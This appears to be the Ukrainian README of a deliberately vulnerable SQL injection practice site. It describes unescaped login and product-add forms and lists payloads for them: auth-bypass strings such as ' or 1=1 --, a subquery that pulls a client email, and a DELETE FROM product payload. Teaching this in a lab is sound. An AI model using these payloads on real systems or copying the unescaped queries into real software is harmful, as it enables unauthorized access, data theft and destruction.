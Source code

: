 # 🛡️ SQL Injection Demo Site

Цей проєкт — демонстраційний сайт для дослідження та практики SQL-інʼєкцій.

---

## ⚠️ Застереження

**Цей сайт створений виключно з навчальною метою.**  
Використання SQL-інʼєкцій у реальних застосунках є незаконним та неетичним. Будьте свідомими.

---

## 🔐 Уразливість при авторизації

Форма входу підставляє дані напряму в SQL-запит без екранування.

### 📥 Вхід у застосунок:

#### Через випадковий акаунт не знаючи email:
- `' or 1=1 --`

#### Якщо відомо існуючий в системі email:
- `admin@gmail.com' -- `

#### Або для правильного email ввести такий "пароль":
- `' or 1=1 -- `

Ці інʼєкції обходять перевірку пароля.

---

## 🛒 Уразливість при додаванні продукту

Форма додавання нового товару вразлива до інʼєкцій через поле назви.

### 📌 Приклади інʼєкцій:

#### ❗ Зміщення структури SQL:

```
qwe', 'qwe', '-50') -- 
```

#### 📬 Отримання даних з іншої таблиці:

```
qwe', (SELECT email FROM client LIMIT 1), '50') -- 
```

#### 💣 Знищення даних:

```
qwe', 'qwe', '50'); DELETE FROM product -- 
```
